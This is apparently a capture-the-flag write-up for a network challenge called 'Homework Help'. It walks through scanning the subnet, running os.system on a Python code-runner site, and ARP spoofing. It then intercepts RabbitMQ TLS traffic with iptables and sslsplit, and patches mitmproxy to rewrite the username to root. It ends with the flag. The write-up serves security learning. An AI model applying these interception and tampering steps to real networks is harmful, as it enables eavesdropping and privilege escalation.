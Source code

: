 Another cool network challenge!

```
Homework Help
Could you help me with my homework? I think the professor's solution is broken.

Difficulty: hard
```

We start with a traditional nmap over the challenge subnet
```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-03-03 20:34 CET
Nmap scan report for 172.30.0.2
Host is up (0.20s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 172.30.0.3
Host is up (0.20s latency).
All 1000 scanned ports on 172.30.0.3 are closed

Nmap scan report for 172.30.0.4
Host is up (0.20s latency).
All 1000 scanned ports on 172.30.0.4 are closed

Nmap scan report for krzysh-laptop (172.30.0.14)
Host is up (0.000076s latency).
[this is my computer]

Nmap done: 16 IP addresses (4 hosts up) scanned in 69.97 seconds
```

This is the website running on 172.30.0.2:
![image](https://user-images.githubusercontent.com/1517255/53700628-9d301780-3df4-11e9-95ff-84144c61d82e.png)

We seem to have something that runs python, so let's just try `os.system()`...
![image](https://user-images.githubusercontent.com/1517255/53700697-4840d100-3df5-11e9-88d0-94997f4d9cc1.png)
And there we go, we got the fla... wait, if that was the case this challenge wouldn't be marked as hard, would it?

There is nothing interesting we have access to on the server, but you can notice that the name returned by "whoami" matches the website login in the top-right corner. Perhaps if we could log in as root, things would be different? But if we try to log out we get a message saying "Not important to the challenge; didn't implement it." What now?

Don't forget this is a network challenge and we haven't even looked at the other hosts yet. Let's just arp spoof all the communication between them and see what is happening when we send the code to be executed.

![image](https://user-images.githubusercontent.com/1517255/53700822-b3d76e00-3df6-11e9-93dc-646503f9d649.png)

The answer: a lot of SSL traffic going to port 5671, we'll probably have to decrypt it somehow. But first, let's check what we are even dealing with:
```
krzys_h@krzysh-laptop:~ $ openssl s_client -connect 172.30.0.4:5671
hello, is anyone there?
AMQP	closed
```
Quick googling reveals that AMQP is Advanced Message Queuing Protocol, and the thing that is most likely running on it is RabbitMQ. I have absolutely no experience with RabbitMQ so I have no idea how to set up my own spoofed server, but that turned out to not be necessary.

First, I would like to somehow intercept the encrypted communication and see what information is actually getting exchanged. Getting that to work properly was suprisingly difficult - sslsniff kept segfaulting on startup and I couldn't figure out why. In the end I switched to sslsplit which worked fine:
```
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 5671 -j REDIRECT --to-ports 1234
openssl genrsa -out ca.key 4096
openssl req -new -x509 -days 1826 -key ca.key -out ca.crt
mkdir /tmp/sslsplit logdir
sudo sslsplit -D -l connections.log -j /tmp/sslsplit -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 1234
cat logdir/*
```
![image](https://user-images.githubusercontent.com/1517255/53700985-bb981200-3df8-11e9-9524-304f4f464b88.png)
Looks like our assumptions about RabbitMQ were correct, and BINGO!
```
{"user": "alice", "assignment": "assignment_one", "code": "import os\nos.system(\"whoami\")\nos.system(\"pwd\")\nos.system(\"ls -la\")"}
```
It looks like we have to swap out the username here for "root". This turned out to be harder than I would have thought - I couldn't find any tools capable of modifying arbitrary SSL communication on the fly, everything I looked at was tailored specifically for HTTPS. At some point I read that `mitmproxy` which would be my go-to tool if this was HTTPS has experimental support for raw TCP mode, so I switched to using that...
```
mitmproxy --mode transparent --listen-port 1234 --ssl-insecure --tcp-hosts 172.30.0.2 --tcp-hosts 172.30.0.4
```
... but after getting it all set up, I realized that the docs on raw TCP say
```
* The raw TCP messages are printed to the event log.
* SSL connections will be intercepted.
Please note that message interception or modification are not possible yet. If you are not interested in the raw TCP messages, you should use the ignore domains feature.
```
Aaaargh, too bad. So what do you do when you can't find a tool that does what you need it to do? You ~write it yourself~ brutally hack the closest thing you have to do what you want. I ended up finding the packet handling code in mitmproxy and hacking it like this:
```diff
diff --git a/proxy/protocol/rawtcp.py.bkp b/proxy/protocol/rawtcp.py
index 0ec5059..2ff5f29 100644
--- a/proxy/protocol/rawtcp.py.bkp
+++ b/proxy/protocol/rawtcp.py
@@ -50,7 +50,10 @@ class RawTCPLayer(base.Layer):
                             return
                         continue
 
-                    tcp_message = tcp.TCPMessage(dst == server, buf[:size].tobytes())
+                    x = buf[:size].tobytes()
+                    x = x.replace(b'"user": "alice",', b'"user": "root", ')
+                    print(x)
+                    tcp_message = tcp.TCPMessage(dst == server, x)
                     if not self.ignore:
                         f.messages.append(tcp_message)
                         self.channel.ask("tcp_message", f)
```
Now we just click "Run" on the website again and...
![image](https://user-images.githubusercontent.com/1517255/53701134-50e7d600-3dfa-11e9-9d72-a6b44c7ed80d.png)
The rule of thumb on CTFs is "if it looks stupid but it works it's not stupid", and this certainly worked. The flag is `gigem{a_chain_is_only_as_strong_as_its_weakest_leporidae}`
